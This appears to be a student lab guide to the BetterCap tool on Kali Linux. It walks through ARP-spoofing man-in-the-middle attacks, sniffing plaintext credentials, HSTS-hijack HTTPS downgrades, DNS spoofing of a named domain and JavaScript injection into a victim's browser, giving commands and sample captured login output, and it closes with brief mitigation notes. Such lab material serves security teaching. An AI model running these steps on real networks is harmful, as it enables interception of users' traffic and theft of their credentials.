 

**Prepared by:** Puru

---

## **1. Introduction to BetterCap**

BetterCap is an advanced network attack and monitoring tool used for:

- **ARP Spoofing** (intercepting connections)
    
- **Data Capture** (usernames, passwords, etc.)
    
- **HTTPS Bypass** (downgrading HTTPS to HTTP)
    
- **DNS Spoofing** (redirecting traffic)
    
- **Code Injection** (JavaScript, HTML)
    

### **Installation (Kali Linux)**

```bash
sudo apt update && sudo apt install bettercap
```

---

## **2. Discovering Network Devices**

### **Step 1: Identify Network Interface**

```bash
ifconfig  # Find active interface (e.g., eth0, wlan0)
```

### **Step 2: Start BetterCap**

```bash
sudo bettercap -iface eth0
```

### **Step 3: Enable Network Discovery**

```bash
net.probe on  # Scans for devices using UDP packets
net.show      # Lists discovered devices (IP, MAC, Vendor)
```

---

## **3. ARP Spoofing (MITM Attack)**

### **Step 1: Configure ARP Spoofing**

```bash
set arp.spoof.fullduplex true  # Spoof both victim & router
set arp.spoof.targets 192.168.200.131  # Target IP
arp.spoof on  # Start attack
```

### **Step 2: Verify MITM Success**

- Check MAC addresses of gateway and victim (should match Kali’s MAC).
    
- Use `net.show` to confirm traffic flows through your machine.
    

### **Step 3: Optional – Disconnect Target**

```bash
arp.ban on  # Blocks victim’s internet
arp.ban off # Restores connection
```

---

## **4. Capturing Traffic**

### **Option A: HTTP Traffic Sniffing**

```bash
net.sniff on  # Captures plaintext data (usernames, passwords)
```

**Example Output:**



```bash
http POST testphp.vulnweb.com/login.php  
username=admin&password=12345
```

### **Option B: HTTP Proxy (Modify Traffic)**

```bash
http.proxy on  # Intercepts & modifies HTTP requests
```
---

## **5. Bypassing HTTPS (Downgrade Attack)**

### **Step 1: Enable Local Sniffing**

```bash
set net.sniff.local true  # Allows sniffing local traffic
```

### **Step 2: Run HSTS Hijack Caplet**

```bash
hstshijack  # Downgrades HTTPS to HTTP
```

**How It Works:**

- Forces victim’s browser to use HTTP instead of HTTPS.
    
- Captures credentials in plaintext.
    

### **Testing on Victim Machine**

1. Clear browser cache (`Ctrl + Shift + Delete`).
    
2. Visit an HTTPS site (e.g., `facebook.com`).
    
3. If downgraded, login credentials appear in BetterCap.
    

---

## **6. DNS Spoofing (Redirecting Traffic)**

### **Step 1: Host a Fake Website**

```bash
sudo service apache2 start  # Start Apache web server
echo ":)" > /var/www/html/index.html  # Replace default page
```
### **Step 2: Configure DNS Spoofing**

```bash
set dns.spoof.all true  # Respond to all DNS queries
set dns.spoof.domains gcit.edu.bt  # Target domain
dns.spoof on  # Start spoofing
```

**Result:**

- Victim visits `gcit.edu.bt` → Redirected to Kali’s fake page (`:)`).
    

---

## **7. JavaScript Injection**

### **Step 1: Create Malicious Script**

```bash
echo 'alert("Hacked!");' > /root/alert.js
```

### **Step 2: Modify HSTS Hijack Payload**

```bash
nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap
```

Add:

```bash
set hstshijack.payloads *:/root/alert.js  # Injects into all sites
```

### **Step 3: Run Attack**

```bash
hstshijack  # Victim sees popup on any website
```

---

## **8. Practical Lab Tasks**

|**Task**|**Command**|**Expected Result**|
|---|---|---|
|Discover devices|`net.probe on` → `net.show`|Lists all connected devices|
|ARP Spoofing|`arp.spoof on`|Victim traffic flows through Kali|
|Sniff HTTP traffic|`net.sniff on`|Captures login credentials|
|HTTPS Downgrade|`hstshijack`|Victim loads HTTP instead of HTTPS|
|DNS Spoofing|`dns.spoof on`|Victim redirected to fake site|
|JavaScript Injection|`set hstshijack.payloads *:/alert.js`|Victim sees popup on any website|

---

## **9. Security Considerations**

- **HTTPS Limitations:** Modern sites (Google, Facebook) enforce **HSTS**, making downgrade difficult.
    
- **Detection:** ARP spoofing can be detected by **ARP monitoring tools**.
    
- **Mitigation:** Use **VPNs, HTTPS Everywhere, and HSTS** to prevent MITM attacks.
    

---

## **10. Summary of Key Commands**

|**Command**|**Purpose**|
|---|---|
|`bettercap -iface eth0`|Start BetterCap|
|`net.probe on`|Discover network devices|
|`arp.spoof on`|Start ARP spoofing|
|`net.sniff on`|Capture plaintext traffic|
|`hstshijack`|Downgrade HTTPS to HTTP|
|`dns.spoof on`|Redirect victim to fake site|
|`set hstshijack.payloads *:/x.js`|Inject JavaScript into victim’s browser|

---



